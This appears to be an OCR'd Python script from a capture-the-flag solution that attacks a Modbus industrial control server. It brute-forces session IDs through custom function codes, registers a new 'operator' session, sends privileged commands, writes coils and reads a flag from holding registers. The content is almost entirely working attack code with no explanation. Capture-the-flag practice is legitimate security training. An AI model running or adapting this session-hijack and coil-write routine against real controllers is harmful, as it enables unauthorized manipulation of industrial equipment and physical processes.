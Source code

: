 ```python
    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)


        if data != [0xe0, 0x08]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break

    code, status, data = send_packet(client, SESSION, 0x11)
    
    username = [ord(char) for char in 'new_operator']

    code, status, data = send_packet(client, SESSION, 0x10, [len(username)] + username)
    
    SESSION = data[0]
    print(f'New session id {SESSION}')
    code, status, data = send_packet(client, SESSION, 0x44)
    code, status, data = send_packet(client, SESSION, 0x46)
    code, status, data = send_packet(client, SESSION, 0x52)

    time.sleep(1)
    # Writing coils
    response = client.write_coils(COIL_START, COIL_VALUES)

    if not response.isError():
        print("Coils written successfully")
    else:
        print("Error writing coils:", response)

    time.sleep(10)

    # Reading coils
    read_response = client.read_coils(COIL_START, COIL_COUNT)
    if not read_response.isError():
        print("Coils values read:", read_response.bits)
    else:
        print("Error reading coils:", read_response)

    time.sleep(10)
   
    if client.connect():
    
      # Reading from Holding Registers
        read_response = client.read_holding_registers(FLAG_ADDR_HOLDING_REGISTER, FLAG_COUNT)
        if not read_response.isError():
            print("Register values read:", read_response.registers)
        else:
            print("Error reading registers:", read_response)

        FLAG = ''.join([chr(char) for char in read_response.registers])
        print('FLAG:', FLAG)
        # Close the connection
        client.close()
    else:
        print("Failed to connect to MODBUS server")
     
```